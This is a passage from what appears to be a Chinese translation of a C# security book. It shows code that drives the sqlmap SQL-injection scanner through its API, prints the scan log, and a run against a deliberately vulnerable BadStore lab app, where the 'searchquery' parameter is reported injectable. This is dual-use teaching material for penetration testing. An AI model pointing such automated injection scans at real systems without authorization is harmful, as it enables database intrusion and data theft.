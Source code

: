 > 
> while (status.Status != "terminated")
> 
> {
> 
> System.Threading.Thread.Sleep(new TimeSpan(0,0,10));
> 
> status = manager.GetScanStatus(taskid);
> 
> }
> 
> List<SqlmapLogItem> logItems = manager.➊GetLog(taskid);
> 
> foreach (SqlmapLogItem item in logItems)
> 
> ➋Console.WriteLine(item.Message);
> 
> manager.DeleteTask(taskid);
> 
> }
> 
> }
> 
> }

Listing 9-28：自动化 sqlmap 扫描 URL 的完整 Main()方法

在 sqlmap 主应用程序的末尾添加对 GetLog() ➊的调用后，我们可以遍历日志消息并将其打印到屏幕上 ➋，以便在扫描完成时查看。最后，我们准备运行完整的 sqlmap 扫描并获取结果。将 BadStore URL 作为参数传递给应用程序，将把扫描请求发送给 sqlmap。结果应类似于 Listing 9-29。

> $ ./ch9_automating_sqlmap.exe "http://10.37.129.3/cgi-bin/badstore.cgi?
> 
> searchquery=fdsa&action=search"
> 
> 刷新会话文件
> 
> 正在测试与目标 URL 的连接
> 
> 启发式检测到网页字符集为 'windows-1252'
> 
> 正在检查目标是否受到某种 WAF/IPS/IDS 的保护
> 
> 正在测试目标 URL 是否稳定
> 
> 目标 URL 稳定
> 
> 正在测试 GET 参数 'searchquery' 是否动态
> 
> 确认 GET 参数 'searchquery' 是动态的
> 
> GET 参数 'searchquery' 是动态的
> 
> 启发式检测到网页字符集为 'ascii'
> 
> 启发式（基本）测试显示 GET 参数 'searchquery' 可能是
> 
> 可注入
> 
> （可能的数据库管理系统：'MySQL'）
> 
> –-省略--
> 
> GET 参数 'searchquery➊' 似乎是 'MySQL <= 5.0.11 或基于时间的盲注
> 
> (重查询)' 可注入